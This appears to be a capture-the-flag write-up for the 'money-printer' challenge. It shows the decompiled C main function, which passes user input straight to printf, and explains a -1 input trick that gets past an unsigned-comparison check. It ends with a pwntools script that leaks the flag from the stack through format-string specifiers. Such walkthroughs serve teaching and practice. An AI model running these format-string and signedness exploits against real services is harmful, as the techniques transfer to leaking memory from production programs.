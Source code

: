 # money-printer
<p align="center">
  <img src="Attachments/Description.png" />
</p>

## FLAG:
`sdctf{d4mn_y0u_f0unD_4_Cr4zY_4M0uN7_0f_M0n3y}`
## Solution
First of all, I decompiled the [executable file](Attachments/money-printer) provided by the challenge

```c
undefined8 main(void)
{
    undefined8 uVar1;
    int64_t in_FS_OFFSET;
    int var_bch;
    int var_b8h;
    uint64_t user_input;
    char *s;
    char *format;
    int64_t canary;
    
    canary = *(int64_t *)(in_FS_OFFSET + 0x28);
    setbuf(_stdin, 0);
    setbuf(_stdout, 0);
    setbuf(_stderr, 0);
    var_b8h = 100;
    user_input._0_4_ = 0;
    var_bch = 0;
    *(int64_t *)0x0 = fopen("flag.txt", data.00400ad8);
    if (*(int64_t *)0x0 == 0) {
        printf(data.00400af7, "no flag file found!");
        exit(0);
    }
    fgets(&s, 0x2d, stack0xffffffffffffff50);
    while (0 < var_b8h) {
        printf("I have %d dollars, how many of them do you want?\n", var_b8h);
        __isoc99_scanf(data.00400b32, &var_bch);
        getchar();
        if (var_bch < 100) {
            if (var_bch < var_b8h) {
                printf("you can have %d dollars!\n", var_bch);
                var_b8h = var_b8h - var_bch;
                user_input._0_4_ = (uint32_t)user_input + var_bch;
            } else {
                puts("I don\'t have that much!");
            }
        } else {
            puts("you clearly can\'t get that much!");
        }
        if (1000 < (uint32_t)user_input) {
            printf("wow you\'ve printed money out of thin air, you have %u!!! Is there anything you would like to say to the audience?\n"
                   , (uint32_t)user_input);
            fgets(&format, 100, _stdin);
            printf("wow you said: ");
            printf(&format);
            puts("\nthat\'s truly fascinating!");
            exit(0);
        }
    }
    uVar1 = 0;
    if (canary != *(int64_t *)(in_FS_OFFSET + 0x28)) {
        uVar1 = __stack_chk_fail();
    }
    return uVar1;
}
```

In the `main` we can see what we have to do to have the flag (that is loaded in the stack):

1. Have more than 1000 dollars.
2. Using format string to read stack.

To get around the first step, since user input is evaluated as an `unsigned`, you can pass `-1` so that it evaluates to the maximum value reachable by an `unsigned int` in C.

To read the flag from the stack I used gdb, locally, to figure out where the flag was loaded and the format string "`%p %p %p %p %p %p %p %p %p %p %p %p`" to understand the offset from which to start to read the flag.

![gdb](Attachments/gdb.png)

So based on the information I found, I wrote the following [script](Attachments/solve.py) to get the flag

```python
from pwn import *

source = "money.sdc.tf"
port = 1337
binary = "./money-printer"

if args.REMOTE:
	r = remote(source, port)
else:
	r = process(binary)

if args.DEBUG:
	context.log_level = 'debug'

r.sendlineafter(b"I have 100 dollars, how many of them do you want?\n", b"-1")

payload = ""
for i in range(10, 16):
	payload += f"%{i}$lx "
log.info(f"{payload = }")

r.sendlineafter(b"the audience?\n", payload.encode())

flag_enc = r.recvline().decode().strip().split()[3:]
flag = ""
for block in flag_enc:
	flag += unhex(block).decode()[::-1]
flag += "}"

log.success(f"{flag = }")

r.close()
```